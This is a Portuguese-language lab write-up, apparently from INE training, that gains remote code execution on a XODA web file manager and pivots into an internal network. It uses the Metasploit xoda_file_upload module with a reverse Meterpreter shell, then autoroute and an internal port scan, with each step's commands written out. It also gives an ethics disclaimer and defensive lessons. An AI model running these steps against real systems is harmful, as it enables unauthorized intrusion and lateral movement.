









# INE Lab - Exploração de XODA File Upload e Pivotamento para Rede Interna

 

## 📌 Objetivo
Explorar a vulnerabilidade **XODA File Upload** em `demo1.ine.local` para:
- Ganhar acesso inicial via RCE (Remote Code Execution).
- Enumerar serviços na rede interna.
- Demonstrar pivotamento para um segundo alvo.

---

*Feito em um lab com ambiente controlado. Nenhuma *

## 🔍 Metodologia

## 1. <span style="color:#e67e22">🌐 Verificação de Acessibilidade</span> 🏓
```bash
ping -c 5 demo1.ine.local 
```
- Host respondeu aos pings, confirmando acessibilidade.




*Figura 1: Host ativo (resposta ao ICMP).*


## 2. <span style="color:#e67e22">🛡️ Escaneamento Inicial com Nmap</span> 🔍
```bash
nmap demo1.ine.local
```

- Porta 80/HTTP aberta.

					

*Figura 2: Scan Nmap revelando porta 80 aberta*

## 3. <span style="color:#e67e22">🕵️ Análise do Serviço Web com cURL</span> 🌐

```
curl demo1.ine.local
```
- Identificada instância do XODA (web file manager).



*Figura 3: Página HTML revelando XODA*

## 4. <span style="color:#e67e22">💥 Exploração com Metasploit</span> 🎯

### <span style="color:#9b59b6">🔧 Pré-requisitos</span>: 
```bash
/etc/init.d/postgresql start  	  # Inicia o banco de dados do Metasploit para registro de sessões
----------------------------------------------------------------------------------------------
msfconsole                        # Inicia o framework Metasploit
----------------------------------------------------------------------------------------------
db_status                         # Verifica se a conexão com o banco de dados está ativa
```

### <span style="color:#9b59b6">🔎 Busca pelo Exploit</span>
```bash
search xoda_file_upload           # Procura módulos relacionados à vulnerabilidade XODA
---------------------------------------------------------------------------------------------
use exploit/unix/webapp/xoda_file_upload  # Seleciona o exploit específico
```


*Figura 4: Busca pelo exploit do XODA.*

### <span style="color:#e74c3c">⚙️ Configuração Necessária</span>
```bash
set RHOSTS demo1.ine.local        # Define o alvo (Remote HOST)
---------------------------------------------------------------------------------------------
set TARGETURI /                   # Especifica o caminho base do XODA (normalmente na raiz)
---------------------------------------------------------------------------------------------
set LHOST [IP_ATACANTE]           # Configura o IP local para receber a conexão reversa
---------------------------------------------------------------------------------------------
exploit                           # Executa o exploit
```


*Figura 5: Definindo valores para as opções do exploit.*


### <span style="color:#3498db">Explorações Adicionais</span>

**PostgreSQL**: Necessário para armazenar dados de sessões e resultados de scans


⚠️**RHOSTS vs LHOST**:

**RHOSTS**: Alvo do ataque


**LHOST**: Sua máquina (para shells reversos)


**TARGETURI**: Muitos exploits web requerem ajuste do path padrão


**Verificação**: Sempre use show options antes de executar para confirmar parâmetros


<span style="color:#2ecc71">✅ Resultado Esperado</span>:

Sessão Meterpreter aberta com privilégios do serviço web.


*Figura 6: Exploit enviado com sucesso. Sessão do meterpreter iniciada.*

## 5. <span style="color:#e67e22">Pós-Exploração</span> 🕵️

### <span style="color:#f1c40f">🐚 Shell Interativo</span>

```bash
shell			# Inicia uma sessão shell básica no alvo (geralmente não-interativa)
---------------------------------------------------------------------------------------------
/bin/bash -i		# Força um shell interativo
---------------------------------------------------------------------------------------------
ifconfig		# Lista interfaces de rede do alvo
```



*Figura 7: Shell utilizado para acessar o ifconfig.*

### <span style="color:#9b59b6">🗺️ Mapeamento Interno</span>

```bash
run autoroute -s 192.140.124.2 	# Cria rota na rede interna via Meterpreter
		 			# '-s' = (subnet): Define a rede de destino para a qual a rota será criada.
---------------------------------------------------------------------------------------------
background  # Coloca a sessão atual em segundo plano
		    
```



*Figura 8: Rota de recebimento de dados para o atacante definida.*

### <span style="color:#e74c3c">🔍 Varredura de Portas Internas</span>

```bash
use auxiliary/scanner/portscan/tcp  # Carrega módulo de scan TCP:
                                    # - Evita detecção (mais lento que Nmap)
                                    # - Integrado ao Metasploit
---------------------------------------------------------------------------------------------                                    
set RHOSTS 192.140.124.3  # Define alvo interno (do ifconfig anterior)
---------------------------------------------------------------------------------------------
set PORTS 1-65535 		  # Define fazer a varredura de todas as portas TCP.
```



*Figura 9: Busca e definição das opções do portscan*

<span style="color:#2ecc71">✅ Resultado</span>

Foram detectadas 3 portas abertas:

- Porta 21/FTP

- Porta 22/SSH

- Porta 80/HTTP



*Figura 10: Portas abertas descobertas com sucesso.*

<span style="color:#1abc9c">🎯 Nota Final:
Este lab demonstrou como vulnerabilidades em aplicações web (XODA) podem servir como vetor inicial para comprometer redes internas. O ambiente controlado permitiu testar técnicas de pivoteamento sem risco real, reforçando a importância de:

1. Patch management
2. Network segmentation
3. Log analysis

</span>

## Disclaimer
Este relatório documenta atividades realizadas **exclusivamente** em um ambiente de laboratório controlado, com as seguintes características:
- Todas as máquinas/alvos são parte de uma infraestrutura dedicada para fins educacionais
- Nenhum dado confidencial ou sistema de produção foi acessado ou comprometido
- As vulnerabilidades exploradas foram deliberadamente configuradas para fins didáticos
- Todas as ferramentas utilizadas estão em conformidade com as políticas do laboratório

**Ética & Conformidade**:  
As técnicas demonstradas devem ser aplicadas apenas em ambientes autorizados. A reprodução não autorizada em sistemas reais constitui violação legal.